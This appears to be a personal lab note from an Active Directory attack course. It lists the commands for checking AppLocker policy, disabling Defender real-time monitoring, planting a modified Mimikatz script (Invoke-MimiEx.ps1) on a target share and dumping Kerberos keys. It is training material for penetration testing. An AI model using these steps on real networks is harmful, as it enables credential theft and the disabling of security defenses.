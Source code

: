  
to dump hashes.
connect to target machine check if app locker is present:
```
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2
```
if yes, then check which directory bypasses this 
```
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2\Script\06dce67b-934c-454f-a263-2515c8796a5d
```
disable real time monitoring
before than, open powershell and enter
```
Enter-PSSession dcorp-<>
```
```
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
```
ON USER MACHINE:
- Create a copy of Invoke-Mimi.ps1 and rename it to Invoke-MimiEx.ps1.
- Open Invoke-MimiEx.ps1 in PowerShell ISE (Right click on it and click Edit).
- Add 
```
  Invoke-Mimi -Command '"sekurlsa::ekeys"' 
```
    to the end of the file
again on user machine:
```
Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```
run script on target machine
```
.\Invoke-MimiEx.ps1
```

next go ahead with [[safteykatz]] to extract creds. or you can move to [[Persistence]] from here.